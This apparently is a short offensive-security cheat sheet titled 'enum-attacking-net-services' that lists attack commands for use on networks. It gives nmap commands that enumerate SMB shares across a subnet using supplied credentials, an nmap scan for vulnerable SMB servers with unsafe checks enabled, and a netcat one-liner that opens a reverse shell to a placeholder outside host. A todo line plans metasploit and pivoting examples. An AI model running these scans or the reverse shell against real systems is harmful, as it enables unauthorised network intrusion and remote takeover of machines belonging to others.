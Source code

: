 # enum-attacking-net-services


Locate and enum open smb shares:

``nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24``

Scan for vulnerable SMB servers:

``nmap -v -p 445 --script=smb-check-vulns 
--script-args=unsafe=1 192.168.1.0/24``

use netcat to spawn a reverse shell:

``nc -e /bin/sh SOME-IP-ADDRESS 80``

todo: add metasploit/bash automated scanner, pivoting examples(post exploitation)
